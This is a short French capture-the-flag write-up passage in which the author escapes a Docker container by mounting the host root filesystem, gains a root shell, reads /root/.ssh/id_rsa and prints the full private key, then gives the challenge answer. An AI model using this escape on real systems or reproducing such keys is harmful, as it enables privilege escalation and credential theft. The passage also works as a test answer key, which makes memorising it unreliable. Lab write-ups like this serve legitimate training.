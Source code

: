 On remarque que l'on est dans un docker.   

```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

On s'évade du docker en exécutant un bash.   

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd root
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
tnuyiubefzK5DyDEf2YdhEE7PJbMBjnCWQJCtOaSCz/RZ7ET9pAMvo4MvTFs3I97
eDM3HWDdrmrK1hTaOTmvbV8DM9sNqgJVsH24ztLBWRRU4gOsP4a76s0CgYEA0LK/
/kh/lkReyAurcu7F00fIn1hdTvqa8/wUYq5efHoZg8pba2j7Z8g9GVqKtMnFA0w6
t1KmELIf55zwFh3i5MmneUJo6gYSXx2AqvWsFtddLljAVKpbLBl6szq4wVejoDye
lEdFfTHlYaN2ieZADsbgAKs27/q/ZgNqZVI+CQcCgYAO3sYPcHqGZ8nviQhFEU9r
4C04B/9WbStnqQVDoynilJEK9XsueMk/Xyqj24e/BT6KkVR9MeI1ZvmYBjCNJFX2
96AeOaJY3S1RzqSKsHY2QDD0boFEjqjIg05YP5y3Ms4AgsTNyU8TOpKCYiMnEhpD
kDKOYe5Zh24Cpc07LQnG7QKBgCZ1WjYUzBY34TOCGwUiBSiLKOhcU02TluxxPpx0
v4q2wW7s4m3nubSFTOUYL0ljiT+zU3qm611WRdTbsc6RkVdR5d/NoiHGHqqSeDyI
6z6GT3CUAFVZ01VMGLVgk91lNgz4PszaWW7ZvAiDI/wDhzhx46Ob6ZLNpWm6JWgo
gLAPAoGAdCXCHyTfKI/80YMmdp/k11Wj4TQuZ6zgFtUorstRddYAGt8peW3xFqLn
MrOulVZcSUXnezTs3f8TCsH1Yk/2ue8+GmtlZe/3pHRBW0YJIAaHWg5k2I3hsdAz
bPB7E9hlrI0AconivYDzfpxfX+vovlP/DdNVub/EO7JSO+RAmqo=
-----END RSA PRIVATE KEY-----
```

On obtient un shell root, on lit la clef privée dans le fichier id_rsa.    

La réponse est : MIIEogIBA     